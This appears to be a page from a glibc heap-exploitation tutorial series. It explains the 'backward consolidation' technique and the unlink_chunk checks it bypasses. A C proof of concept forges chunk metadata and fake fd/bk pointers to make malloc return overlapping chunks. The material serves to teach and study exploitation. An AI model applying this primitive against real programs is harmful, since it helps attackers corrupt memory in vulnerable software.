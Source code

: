 ## backward consolidation

Same as [forward consolidation](../forward_consolidation)

**Purpose:** We can have two separate chunks allocated to the same space

**Require:** Have an ability to change the metadata of the allocated chunks

**Mitigations need to bypass:** The malloc consolidates 2 chunks using `malloc_consolidate` function, but before consolidate them, malloc must unlink (use `unlink_chunk`) first. And there are two mitigations inside the `unlink_chunk` that we need to bypass

- [prev_size](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1610-L1611)
- [fd/bk](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1616-L1617)

## POC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    long *consolidated_chunk, *victim, *chunk;

    consolidated_chunk = malloc(0x80);
    victim = malloc(0x410);
    chunk = malloc(0x10); // Avoid top-chunk consolidate

    /* Setup victim prev_size & size fields */
    victim[-2] = 0x90;
    victim[-1] = 0x420;

    /* Create a FAKE main_arena */
    consolidated_chunk[8] = (long)&consolidated_chunk[-2];
    consolidated_chunk[9] = (long)&consolidated_chunk[-2];

    /* Create a FAKE fd/bk */
    consolidated_chunk[0] = (long)&consolidated_chunk[6];
    consolidated_chunk[1] = (long)&consolidated_chunk[6];

    free(victim); // Triger backward consolidation
    // After this, our victim chunk would be freed, and due to backward consolidation it will be merged with the consolidated_chunk
    // This create an overlapping chunk on a 0x90 (include metadata) chunk
    long *overlaping_chunk = malloc(0x80);
    long *new_chunk = malloc(0x410);

    // Confirm again
    assert(overlaping_chunk == consolidated_chunk);

    return 0;
}
```

